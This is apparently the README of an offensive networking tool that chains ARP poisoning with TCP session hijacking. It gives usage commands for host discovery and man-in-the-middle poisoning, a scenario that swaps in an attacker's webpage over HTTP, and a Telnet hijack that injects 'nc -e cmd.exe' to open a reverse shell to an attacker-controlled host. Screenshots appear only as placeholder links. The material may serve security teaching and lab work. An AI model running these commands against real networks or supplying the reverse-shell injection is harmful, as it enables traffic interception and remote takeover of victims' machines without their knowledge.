









# TCP Hijacking

The attack is carried out in two stages.

1. Man in the Middle attack using **ARP poisoning**. This allows the attacker to sniff the traffic and obtain the TCP SEQ and ACK numbers.

2. Higher-layer protocol attack through **TCP session hijacking**. For instance, unencrypted application layer protocols such as Telnet, FTP and HTTP.

The tool is split into two modules: `arp_poisoning.py` and `tcp_hijacking.py`.

The ARP Poisoning module provides auxiliary features like host discovery and traffic sniffing.

The attacker may want to conduct a TCP hijacking attack. In this case, the TCP Hijacking module is used.

# Proof of Concept

## Discovery

The following command can be used to discover hosts on the network using an ARP scan.

`python3 arp_poisoning.py discover 192.168.28.0/24`

## ARP Poisoning

Provide the victim IP and the gateway IP.

`python3 arp_poisoning.py attack 192.168.213.212 192.168.213.22`

All the subsequent attacks rely on first achieving a man-in-the-middle attack via ARP poisoning.

## HTTP Session Hijacking

The attacker returns an arbitrary webpage (poc.html) when the victim sends a HTTP GET request.

The legit website hosted on port 80:

Script output:

After successful attack, the victim sees the attacker's website instead:

## Telnet Session Hijacking

The attacker hijacks an established Telnet session to execute arbitrary commands. For example, the following executes `nc -e cmd.exe 192.168.213.223 4444`, giving the attacker a reverse shell into the Telnet server.

`python3 tcp_hijacking.py 192.168.213.212 192.168.213.197 telnet "nc -e cmd.exe 192.168.213.223 4444"`

Script output:

Reverse shell:

From the perspective of the victim, he/she has lost connection to the Telnet server, and is not aware of the presence of the attacker.

